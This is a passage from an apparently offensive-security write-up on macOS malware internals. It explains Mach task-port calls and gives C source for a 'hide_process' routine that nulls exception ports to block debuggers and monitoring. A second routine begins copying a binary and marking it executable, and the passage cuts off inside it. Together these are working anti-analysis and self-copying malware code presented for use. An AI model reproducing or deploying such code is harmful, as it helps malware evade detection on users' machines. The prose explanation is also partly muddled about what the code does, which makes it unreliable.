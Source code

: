 To achieve this kind of behavior, we need to use task operations because we need to control another process and access system processes. I found specific Mach system calls like `pid_for_task()`, `task_for_pid()`, `task_name_for_pid()`, and `mach_task_self()`, which allow conversion between Mach task ports and Unix PIDs. However, they essentially bypass the capability model, which means they are restricted on macOS due to UID checks, entitlements, SIP, etc., limiting their use, and are not documented as part of a public API and are privileged, typically accessible only by processes with elevated privileges like root or members of the `procview group`. This limitation poses a challenge because malware would need elevated privileges or execution on a privileged account to work unless obtained through various means. 

Thus, we can't use `task_for_pid` on Apple platform binaries due to SIP. However, if permitted, we would have the port and could essentially do anything we want including what I'm about to explain. Therefore, So for this example we'll use `mach_task_self()` as it typically does not require privileges. It retrieves information about the current task, depending on the security policies enforced.

```c
void hide_process() {
    mach_port_t task_self = mach_task_self();
    kern_return_t kr;

    // Set exception ports to disable debuggers.
    kr = task_set_exception_ports(task_self, EXC_MASK_ALL, MACH_PORT_NULL, EXCEPTION_DEFAULT | MACH_EXCEPTION_CODES, THREAD_STATE_NONE);
    if (kr != KERN_SUCCESS) {
        printf("Uh-oh: Failed to set exception ports: %s\n", mach_error_string(kr));
        exit(EXIT_FAILURE);
    }

    printf("Shhh... Process is now hidden\n");
}
```

the function obtains the task port for the current process using `mach_task_self()`, which essentially retrieves a send right to a task port. In the Mach kernel, a task port represents a task, and sending a message to this port enables actions to be performed on the corresponding task.

Next, to set the exception ports to disable debuggers and other forms of external monitoring. This is achieved through the `task_set_exception_ports()` function call. and any received messages should be directed to a null Mach port. The process then exits with a failure status.

```c
void copy_file(const char *source_path, const char *dest_path) {
    FILE *source_file = fopen(source_path, "rb");
    if (source_file == NULL) {
        printf("Oops: Failed to open source file for copying: %s\n", strerror(errno));
        exit(EXIT_FAILURE);
    }

    FILE *dest_file = fopen(dest_path, "wb");
    if (dest_file == NULL) {
        printf("Oops: Failed to open destination file for copying: %s\n", strerror(errno));
        fclose(source_file); 
        exit(EXIT_FAILURE);
    }

    char buffer[BUF_SIZE];
    size_t bytes_read;
    while ((bytes_read = fread(buffer, 1, sizeof(buffer), source_file)) > 0) {
        fwrite(buffer, 1, bytes_read, dest_file);
    }

    fclose(source_file);
    fclose(dest_file);

    // Grant execute permission for the copied binary
    if (chmod(dest_path, PERMISSIONS) == -1) {
```